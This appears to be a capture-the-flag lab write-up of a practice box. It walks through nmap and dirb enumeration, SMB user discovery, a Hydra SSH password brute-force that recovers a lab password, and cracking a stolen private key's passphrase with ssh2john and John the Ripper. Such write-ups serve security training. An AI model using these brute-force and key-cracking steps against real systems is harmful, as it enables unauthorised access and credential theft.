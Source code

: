 # Enumeration

### nmap
```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
```
### 80/http
when we open the page we get greeted with this screen
![[Pasted image 20240924145815.png]]

in the source code we can find
```html
<html>

<h1>Undergoing maintenance</h1>

<h4>Please check back later</h4>

<!-- Check our dev note section if you need to know what to work on. -->


</html>
```

there aren't any links so lets try to brute-force our way in
#### Dirb
```
-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.165.52/ ----
==> DIRECTORY: http://10.10.165.52/development/
+ http://10.10.165.52/index.html (CODE:200|SIZE:158)
+ http://10.10.165.52/server-status (CODE:403|SIZE:300)

---- Entering directory: http://10.10.165.52/development/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
```

so the hidden page was /development which is also a listing directory lets have a look inside
![[Pasted image 20240924150930.png]]

there are two text files the first reads

```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
these are the chats between _-J_ and _-K_ from development

```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
This is for J regarding his weak passwords, so we should probably try brute forcing it. The only problem is that we don't have the full username, so lets try enumerating the SMB maybe we can find the usernames that way.

### 139, 445/SMB
#### Enum4Linux
the scan gave us two usernames: _Jan_ and _Kay_ 
> *the log corrupted somehow so I cant show you ):*

We also found a Anonymous share but it doesn't have much accept for this file
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

lets try to bruteforce Jan's Password

### 22/SSH
#### Hydra
found a password with this command
```bash
$ hydra -u jan -P rockyou.txt ssh://[target]

[22][ssh] host: 10.10.165.52   login: jan   password: armando
```

# Privilege escalation
after searching for about 2 minutes in the server I found out that the *key_rsa* in kay's home folder has bad permissions so I just copied it

when using it I realised that the hash has a pass two so I will have to crack it with johnTheRipper

first I take the key and use `ssh2john id_rsa > id_rsa.txt` to make it a crack-able hash and then I use john with rockyou.txt to crack the hash
```shell
$ john id_rsa.txt --wordlist=rockyou.txt
..Snip..
beeswax          (id_rsa)
..Snip..
Session completed
```